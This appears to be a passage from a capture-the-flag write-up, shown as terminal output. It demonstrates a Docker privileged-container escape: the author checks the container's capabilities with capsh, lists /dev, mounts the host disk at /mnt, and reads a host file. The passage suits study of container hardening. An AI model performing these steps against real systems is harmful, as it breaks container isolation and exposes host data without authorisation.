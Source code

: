 ```bash
root@bb28d5969dd5:~# ls -lah
total 16K
drwx------ 2 root root 4.0K Feb 24 00:00 .
drwxr-xr-x 1 root root 4.0K Mar  8 06:39 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
root@bb28d5969dd5:~# grep CapEff /proc/self/status
CapEff:	000001ffffffffff
```

```bash
:~/Moebius# capsh --decode=000001ffffffffff
WARNING: libcap needs an update (cap=40 should have a name).
0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,38,39,40
```

```bash
root@bb28d5969dd5:/var/www/html# cd /dev
root@bb28d5969dd5:/dev# ls
autofs		 mqueue     stdin   tty3   tty53   ttyS19     vcs1
btrfs-control	 net	    stdout  tty30  tty54   ttyS2      vcs2
core		 ng0n1	    tty     tty31  tty55   ttyS20     vcs3
cpu_dma_latency  ng1n1	    tty0    tty32  tty56   ttyS21     vcs4
cuse		 ng2n1	    tty1    tty33  tty57   ttyS22     vcs5
dma_heap	 null	    tty10   tty34  tty58   ttyS23     vcs6
ecryptfs	 nvme0	    tty11   tty35  tty59   ttyS24     vcsa
fd		 nvme0n1    tty12   tty36  tty6    ttyS25     vcsa1
full		 nvme0n1p1  tty13   tty37  tty60   ttyS26     vcsa2
fuse		 nvme1	    tty14   tty38  tty61   ttyS27     vcsa3
hpet		 nvme1n1    tty15   tty39  tty62   ttyS28     vcsa4
hwrng		 nvme2	    tty16   tty4   tty63   ttyS29     vcsa5
input		 nvme2n1    tty17   tty40  tty7    ttyS3      vcsa6
kmsg		 nvram	    tty18   tty41  tty8    ttyS30     vcsu
loop-control	 port	    tty19   tty42  tty9    ttyS31     vcsu1
loop0		 ppp	    tty2    tty43  ttyS0   ttyS4      vcsu2
loop1		 psaux	    tty20   tty44  ttyS1   ttyS5      vcsu3
loop2		 ptmx	    tty21   tty45  ttyS10  ttyS6      vcsu4
loop3		 pts	    tty22   tty46  ttyS11  ttyS7      vcsu5
loop4		 random     tty23   tty47  ttyS12  ttyS8      vcsu6
loop5		 rfkill     tty24   tty48  ttyS13  ttyS9      vfio
loop6		 rtc0	    tty25   tty49  ttyS14  ttyprintk  vga_arbiter
loop7		 shm	    tty26   tty5   ttyS15  udmabuf    vhost-net
mapper		 snapshot   tty27   tty50  ttyS16  uinput     vhost-vsock
mcelog		 snd	    tty28   tty51  ttyS17  urandom    zero
mem		 stderr     tty29   tty52  ttyS18  vcs	      zfs
```

```bash
root@bb28d5969dd5:~# mount /dev/nvme0n1p1 /mnt
root@bb28d5969dd5:~# cat /mnt/etc/hostname
ubuntu-jammy
```
